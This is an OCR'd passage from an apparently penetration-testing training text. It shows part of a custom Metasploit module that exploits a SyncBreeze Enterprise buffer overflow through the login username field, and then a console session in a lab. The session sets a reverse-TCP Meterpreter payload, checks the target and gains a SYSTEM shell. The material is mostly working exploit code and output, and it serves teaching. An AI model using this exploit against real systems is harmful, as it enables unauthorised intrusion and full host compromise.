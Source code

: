  print_status("Generating exploit...")
 exp = rand_text_alpha(target['Offset'])
 exp << [target.ret].pack('V')
 exp << rand_text(4)
 exp << make_nops(10) # NOP sled to make sure we land on jmp to shellcode
 exp << payload.encoded
 print_status("Sending exploit...")
 send_request_cgi(
 'uri' => '/login',
 'method' => 'POST',
 'connection' => 'keep-alive',
 'vars_post' => {
 'username' => "#{exp}",
 'password' => "fakepsw"
  }
 )
 handler
 disconnect
 end
end


With the exploit complete, we can start Metasploit and search for it.

kali@kali:~$ sudo msfconsole -q
[*] Starting persistent handler(s)...
msf5 > search syncbreeze
Matching Modules
================
Name Disclosure Date Rank Check Descrip
tion
---- --------------- ---- ----- -------
----
exploit/windows/fileformat/syncbreeze_xml 2017-03-29 normal No Sync Br
eeze Enterprise 9.5.16 - Import Command Buffer Overflow
exploit/windows/http/syncbreeze/syncbreeze 2019-10-20 excellent Yes SyncBre
eze Enterprise Buffer Overflow
exploit/windows/http/syncbreeze_bof 2017-03-15 great Yes Sync Br
eeze Enterprise GET Buffer Overflow
msf5 > use exploit/windows/http/syncbreeze/syncbreeze
msf5 exploit(windows/http/syncbreeze/syncbreeze) >


We notice that the search for syncbreeze now contains three results and that the second result isour custom exploit.

Next we’ll choose a payload, set up the required parameters, and perform avulnerability check.

msf5 exploit(windows/http/syncbreeze/syncbreeze) > set PAYLOAD windows/meterpreter/rev
erse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf5 exploit(windows/http/syncbreeze/syncbreeze) > set RHOSTS 10.11.0.22
RHOSTS => 10.11.0.22
msf5 exploit(windows/http/syncbreeze/syncbreeze) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(windows/http/syncbreeze/syncbreeze) > check
[*] 10.11.0.22:80 - The target appears to be vulnerable
msf5 exploit(windows/http/syncbreeze/syncbreeze) > exploit
[*] Started reverse TCP handler on 10.11.0.4:4444
[*] Generating exploit...
[*] Sending exploit...
[*] Sending stage (179779 bytes) to 10.11.0.22
[*] Meterpreter session 2 opened (10.11.0.4:4444 -> 10.11.0.22:1923) at 05:19:32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
